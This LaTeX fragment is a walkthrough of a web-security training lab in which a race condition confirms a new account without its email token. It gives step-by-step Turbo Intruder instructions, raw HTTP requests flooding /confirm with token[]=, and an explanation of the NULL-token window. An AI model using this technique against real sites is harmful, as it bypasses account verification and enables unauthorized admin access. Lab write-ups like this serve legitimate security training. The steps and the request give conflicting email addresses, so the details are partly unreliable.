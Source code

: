 \documentclass[11pt]{article}
\begin{document}
\begin{enumerate}[leftmargin=1.2em]
  \item Send \texttt{POST /register} to Turbo Intruder using the \texttt{race-single-packet-attack.py} template; mark the \texttt{username} value as the payload position (\texttt{\%s}), set \texttt{email} to a not-yet-used \texttt{@ginandjuice.shop} address, and add a deliberate client-side delay so the confirmation floods land squarely inside the registration's race window while many different usernames are being registered.
  \item In parallel/alongside, flood \texttt{POST /confirm?token[]=} attempts against the usernames being registered.
  \item Watch for a \texttt{200} response containing \texttt{Account registration for user <USERNAME> successful} -- note that username.
  \item Log in with that username and the static password used during registration; the account is verified despite never owning the confirmation inbox.
  \item Access the admin panel and delete \texttt{carlos} to solve the lab.
\end{enumerate}
\begin{lstlisting}[style=http]
POST /register HTTP/2
Host: 0a...web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 74

csrf=<TOKEN>&username=%s&email=attacker@exploit-server.net&password=test1234
---
POST /confirm?token[]= HTTP/2
Host: 0a...web-security-academy.net
Content-Length: 0
\end{lstlisting}
\begin{causebox}
The account object is built across \textbf{two sequential writes}, exposing a genuine sub-state:
\begin{lstlisting}[style=code]
user = db.insert_user(username, email, password)   # write 1: row exists, token column NULL
token = generate_token()
db.update_user_token(user.id, token)                # write 2: token finally set
\end{lstlisting}
Between write 1 and write 2 the token column is \texttt{NULL}. The \texttt{/confirm} endpoint's comparison likely reads as \texttt{submitted\_token == stored\_token}; PHP-style loose/type-juggling comparisons (or a naive array-vs-null comparison) can make an \emph{array} submitted as \texttt{token[]=} evaluate as equal to an uninitialized/\texttt{NULL} stored token. Landing the confirmation request inside that narrow gap confirms the account without ever knowing the real token -- the developer never anticipated that the object could be read mid-construction.
\end{causebox}
\end{document}
